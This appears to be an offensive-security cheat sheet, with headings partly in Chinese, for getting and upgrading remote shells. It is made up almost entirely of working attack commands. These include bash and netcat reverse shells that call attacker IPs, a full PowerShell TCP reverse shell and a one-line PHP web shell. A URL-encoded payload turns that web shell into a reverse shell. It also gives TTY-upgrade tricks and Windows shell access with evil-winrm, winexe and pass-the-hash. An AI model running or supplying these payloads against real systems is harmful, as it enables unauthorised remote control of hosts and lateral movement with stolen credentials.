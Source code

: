 ```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```
``` bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
``` bash
/bin/sh -i >& /dev/tcp/10.10.14.11/4444 0>&1
```
### PowerShell Reverse Shell
``` powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
## Web Shell
``` php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- 把web shell變成reverse shell
``` powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
## 升級為tty shell
- script
``` bash
script -c /bin/bash -q /dev/null
```
- stty
``` title:檢查row跟column的數量
stty -a
```
```
Ctrl + Z;
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 49 columns 211; reset;
```
- python
``` python
python -c 'import pty; pty.spawn("/bin/bash")'
```
- rlwrap
```
rlwrap -cAr nc -nvlp 4444
```
## 拿到Windows Shell
```
evil-winrm -i 10.129.42.197 -u user -p password
```
```
winexe -U 'administrator%Pa$$w0rd' //192.168.0.7 cmd
```
```
pth-winexe -U 'administrator%<ntlm hash:ntlm hash>' // 192.168.0.7 cmd.exe
```